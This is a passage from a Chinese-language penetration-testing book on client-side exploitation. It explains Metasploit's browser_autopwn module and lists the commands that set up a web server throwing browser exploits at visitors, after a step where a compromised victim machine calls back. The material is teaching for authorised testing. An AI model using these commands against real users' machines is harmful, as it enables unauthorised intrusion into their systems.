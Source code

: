 我们现在要重新启动受害者机器。重新启动后，metasploit 窗口中返回的连接结果示例如以下屏幕截图所示：

![Leveraging the client configuration](img/477-1_12_30.jpg)

# 客户端开发

到目前为止，我们讨论的大部分内容都是一种形式的客户端利用。在本节中，我们将了解更多攻击客户端的方法。我们将继续利用客户机的向量攻击机器，点击链接或文件并指向我们的攻击者机器。在我们继续之前，我们想重申，在撰写本书时，我们使用了最新和最强大的攻击。当你读这本书的时候，有些事情已经改变了。然而，唯一不变的是过程和方法。只要您继续遵循系统化流程，您将能够发现和识别最新的技术，并相应地修改您的方法。

我们在本章中使用的先前方法的一个挑战是，我们必须根据遇到的软件版本选择特定的漏洞利用。我们用 Java 和 Internet Explorer 实现了这一点。这很有效，但如果我们不知道受害者与我们连接时，他们的系统上到底会有什么呢？正如你所想象的，这是一个合理的担忧。幸运的是，metasploit 的优秀开发人员已经解决了这个问题。因此，他们为我们提供了一个模块，一旦建立了连接，该模块将尝试提供各种利用漏洞的服务。该模块为`browser_autopwn`。这个功能强大的模块确实使用库存中的所有当前漏洞建立了一个 web 服务器，当建立连接时，该模块将运行可用漏洞，直到找到一个漏洞为止。请记住，因为它永远不会被忽视，利用率不是 100%，所以它有失败的可能性。但是作为测试人员，我们必须始终尝试并保持记录结果的实践，然后继续我们的测试。

那么，让我们开始吧。在 metasploit 界面中，输入以下命令：

```
use auxiliary/server/browser_autopwn
set LHOST <Kali IP>
set SRVHOST <Kali IP>
set SRVPORT 80
set URIPATH /
run

```

`URIPATH`设置告诉 metasploit 不要生成随机 URL。我们希望客户端只连接到 Kali 机器上运行的服务器的地址。以下屏幕截图显示了这些设置的示例：

![Client-side exploitation](img/477-1_12_32.jpg)

您会注意到，一旦您输入了`run`命令，该工具将开始创建大量组件来支持我们的漏洞利用。这将需要一些时间来完成。以下屏幕截图显示了为利用漏洞创建的不同组件的一些输出示例：
